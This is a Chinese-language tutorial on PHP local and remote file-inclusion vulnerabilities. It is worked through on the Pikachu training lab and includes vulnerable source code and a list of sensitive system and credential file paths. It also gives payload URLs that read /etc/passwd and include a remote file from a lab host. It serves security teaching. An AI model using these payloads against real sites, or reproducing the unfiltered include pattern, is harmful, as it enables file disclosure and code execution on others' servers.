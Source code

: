 
# 概述
文件包含，是一个功能。在各种开发语言中都提供了内置的文件包含函数，其可以使开发人员在一个代码文件中直接包含（引入）另外一个代码文件。

比如 在PHP中，提供了：<br />include(),include_once()
require(),require_once()
这些文件包含函数，这些函数在代码设计中被经常使用到。

大多数情况下，文件包含函数中包含的代码文件是固定的，因此也不会出现安全问题但是，有些时候，文件包含的代码文件被写成了一个变量，且这个变量可以由前端用户传进来，这种情况下，如果没有做足够的安全考虑，则可能会引发文件包含漏洞。攻击者会指定一个“意想不到”的文件让包含函数去执行，从而造成恶意操作。根据不同的配置环境，文件包含漏洞分为如下两种情况：

1. **本地文件包含漏洞：**仅能够对服务器本地的文件进行包含，由于服务器上的文件并不是攻击者所能够控制的，因此该情况下，攻击着更多的会包含一些固定的系统配置文件，从而读取系统敏感信息。很多时候本地文件包含漏洞会结合一些特殊的文件上传漏洞，从而形成更大的威力。
2. **远程文件包含漏洞：**能够通过url地址对远程的文件进行包含，这意味着攻击者可以传入任意的代码，这种情况没啥好说的，准备挂彩。

因此，在web应用系统的功能设计上尽量不要让前端用户直接传变量给包含函数，如果非要这么做，也一定要做严格的白名单策略进行过滤。


## 文件包含函数
**文件包含函数**：require()、require_once()、include()、include_once()。

Include()和require()的区别只要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。

而include_once()和require_once()这两个函数与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

服务器包含文件时，不管后缀是否为php，都会尝试做php文件执行，如果文件内容为php则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容。


## 常见的敏感信息路径
```
Windows：
C:\boot.ini                                --查看系统版本
C:\windows\system32\inetsrv\MetaBase.xml   --IIS配置文件
C:\windows\repair\sam                      --存储windows系统初次安装的密码
C:\ProgramFiles\mysql\my.ini               --mysql配置
C:\ProgramFiles\mysql\data\mysql\user.MYD  --mysql root密码
C:\windows\php.ini                         --php配置信息
```

```
Linux/unix系统：
/etc/passwd                                        --账户信息
/etc/shadow                                        --账户密码文件
/use/local/app/apache2/conf/httpd.conf             --apache2默认配置文件
/use/loca/app/apache2/conf/extra/httpd-vhost.conf  --虚拟网站配置
/use/loca/app/php5/lib/php.ini                     --php配置文件
/etc/httpd/conf/httpd.conf                         --apache2配置文件
/etc/my.conf                                       --mysql配置文件
```


# File Include(本地)

## 查看关键源码
```php
$html='';
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单，严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```

通过代码我们可以看到将变量传进来直接包含,没做任何的安全限制。


## 函数说明
```
isset() 函数用于检测变量是否已设置并且非 NULL。如果指定变量存在且不为 NULL，则返回 TRUE，否则返回 FALSE

语法
bool isset ( mixed $var [, mixed $... ] )
$var：要检测的变量。
```

```
在 PHP 中，您可以在服务器执行 PHP 文件之前在该文件中插入一个文件的内容。
include 和 require 语句用于在执行流中插入写在其他文件中的有用的代码。
include 和 require 除了处理错误的方式不同之外，在其他方面都是相同的：
require 生成一个致命错误（E_COMPILE_ERROR），在错误发生后脚本会停止执行。
include 生成一个警告（E_WARNING），在错误发生后脚本会继续执行。
```


## 实战
我们在include目录中创建一个phpinfo.php的文件，内容为
```
<?php
phpinfo();
?>
```

尝试密码文件
```
http://www.web.com/pikachu/vul/fileinclude/fi_local.php?filename=/etc/passwd&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

报错说明没有这个文件，但是爆出来了文件的所在路径<br />![image-20210709101640350.png](./assets/1655882027451-e9d268e8-7199-4a02-abff-f5565a5da3ce.png)

查看phpinfo文件
```
http://www.web.com/pikachu/vul/fileinclude/fi_local.php?filename=phpinfo.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```
![image-20210709102016034.png](./assets/1655882033072-29365a3c-a001-43a1-b7da-490c4d685891.png)


# File Include(远程)

## 查看关键源码
```php
//远程文件包含漏洞,需要php.ini的配置文件符合相关的配置$html='';if(isset($_GET['submit']) && $_GET['filename']!=null){    $filename=$_GET['filename'];    include "$filename";//变量传进来直接包含,没做任何的安全限制}
```

通过代码我们可以看到和前面的代码一模一样，也是将变量传进来直接包含,没做任何的安全限制。


## 实战
在这里我在IP：为192.168.10.4的机器上创建一个读取phpinfo的文件
```
cd var/www/html/vi phpinfp.phpcat phpinfp.php <?phpphpinfo();?>service apache2 start
```
![image-20210709104500554.png](./assets/1655882047780-b3fd4a15-d608-41f8-bb02-8ab4b2342014.png)

远程文件包含payload：
```
http://www.web.com/pikachu/vul/fileinclude/fi_remote.php?filename=http://192.168.10.4/phpinfo.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```
![image-20210709104709406.png](./assets/1655882052743-cf0e04ad-afe5-4d07-a47c-e2f93164a76d.png)
